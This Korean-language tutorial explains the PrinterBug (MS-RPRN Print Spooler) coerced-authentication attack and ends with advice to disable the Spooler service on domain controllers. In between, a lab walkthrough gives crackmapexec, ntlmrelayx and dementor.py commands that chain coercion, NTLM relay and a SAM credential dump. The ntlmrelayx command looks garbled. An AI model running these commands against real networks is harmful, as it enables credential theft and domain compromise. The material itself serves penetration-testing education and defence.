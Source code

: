 # MS-RPRN - Printerbug / Print Spooler



![](../../.gitbook/assets/print-spooler-rpc.drawio\(3\).png)

Printerbug (프린터버그) / Print Spooler RPC 강제 인증은 타겟 서버에서 실행중인 Print Spooler 서비스의 `RpcRemoteFindFirstPrinterChangeNotificationEx` RPC 함수를 이용하는 공격이다. 공격은 다음과 같은 단계로 이뤄진다:&#x20;

1. 공격자는 사용자 인증이 필요없는 취약한 RPC 함수 중 하나인 `RpcRemoteFindFirstPrinterChangeNotificationEx` 를 타겟 서버에게 요청한다. 이 함수는 타겟 서버에서 프린터와 관련된 변화가 일어날 시 클라이언트에게 알림을 자동으로 해주는 함수다.&#x20;
2. 서버가 클라이언트가 RPC 함수를 실행했다는 것을 인지한다.
3. `RpcRemoteFindFirstPrinterChangeNotificationEx`  함수가 제대로 실행되려면 서버에서 클라이언트로 인증하고 접근 한 뒤, 클라이언트에게 알림 설정을 해줘야한다. 이 설정을 하기 위해 서버는 스스로 (하지만 사실상 클라이언트가 함수를 실행했으니 "강제"로) 공격자 클라이언트에게 서버 머신 계정 + Net-NTLMv1/v2 해시가 포함된 사용자 인증 패킷을 보낸다.&#x20;
4. 공격자는 이 머신 계정의 사용자 인증 패킷을 Responder 와 같은 툴로 받는다.&#x20;
5. 이후 이 머신 계정 이름 + Net-NTLMv1/v2 해시를  가지고 릴레이 공격, 다운그레이드 공격, RBCD 공격 등의 다양한 공격을 진행한다.&#x20;

### 전제 조건&#x20;

* 타겟 서버의 Print Spooler 서비스가 작동중이여야한다 - 윈도우 서버와 워크스테이션 운영체제에서는 기본적으로 활성화 되어있다.
* 도메인 유저 계정/문맥이 필요하다.&#x20;

### 실습&#x20;

* **DC01.choi.local (192.168.40.150)** - choi.local 도메인의 도메인 컨트롤러. 끔찍하게도 다른 도메인 컨트롤러의 로컬 관리자 권한을 갖고 있다.&#x20;
* **DC1.pci.choi.local (192.168.40.160)** - pci.choi.local 도메인의 도메인 컨트롤러. 끔찍하게도 dc01.choi.local 에게 로컬 관리자 권한을 줬다.&#x20;

![](<../../.gitbook/assets/image (12).png>)

도메인 컨트롤러가 다른 도메인의 도메인 컨트롤러 로컬 관리자 권한을 갖고 있는 것은 현실적이지 않은 시나리오다. 그와 동시에 실제 모의해킹 시 발견 가능성이 0%냐고 물어본다면 또 그렇지도 않은, 끔찍한 시나리오다.&#x20;

이번 실습에서는 dc01.choi.local에게 프린터버그 강제인증 -> NTLM 릴레이 -> dc1.pci.choi.local 의 SAM 덤프를 해본다.&#x20;

1.먼저 dc01.choi.local 이 프린터버그 에 취약한지, Spooler 서비스가 작동중인지 알아본다.&#x20;

```
cme smb dc01.choi.local -u low -p 'Password123!' -d choi.local -M spooler
```

![Enabled! Spooler 서비스/RPC가 작동중이다.](<../../.gitbook/assets/image (5).png>)

2\. 프린터버그 강제 인증을 실행하기 전, NTLM 릴레이를 먼저 세팅한다.&#x20;

```shell
python3 ntlmrelayx.py -t dc01.choi.local -smb2supportshel
```

3\. 프린터버그 강제 인증을 실행한다.&#x20;

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.182 192.168.40.150
```

4\. 결과를 확인한다.&#x20;

dc01.choi.local (192.168.40.150) 에게 프린터버그 강제인증 실행 -> dc01의 머신계정 (`choi.local\dc01$`) 의 NTLM 인증 트래픽이 공격자 호스트에게 전달 -> 그것을 릴레이해서 dc1.pci.choi.local 에게 전달 -> `dc01.choi.local` 이 `dc1.pci.choi.local` 의 로컬 관리자 권한을 갖고 있었기 때문에 SAM 덤프.&#x20;

![](<../../.gitbook/assets/image (7).png>)

### 대응 방안&#x20;

강제 인증 공격을 가능케 해주는 Print Spooler 서비스는 프린트를 위한 서비스다. 수만명의 대기업 IT 인프라를 담당하는 도메인 컨트롤러 서를 물리적으로 방문해서 프린트를 한 적은 없을 것이다. 어디 데이터센터에 있는 도메인 컨트롤러에 비행기를 타고 가서 프린트를 하는 시스템 어드민 또한 본 적이 없다.&#x20;

따라서 프린터버그 강제 인증을 막는 방법은 Spooler 서비스를 비활성화 시키는 것이다. 특정 기능을 비활성화 시키는 것은 고객사에게 잘 추천하지 않지만, 이 경우 진짜 도메인 컨트롤러에서 프린트를 하는 사람이 없기 때문에 비활성화해도 비즈니스 운영에 있어 아무런 영향을 미치지 않는다.&#x20;

&#x20;

![프린트는 프린터에서 - 도메인 컨트롤러는 소중하다.](<../../.gitbook/assets/image (4).png>)
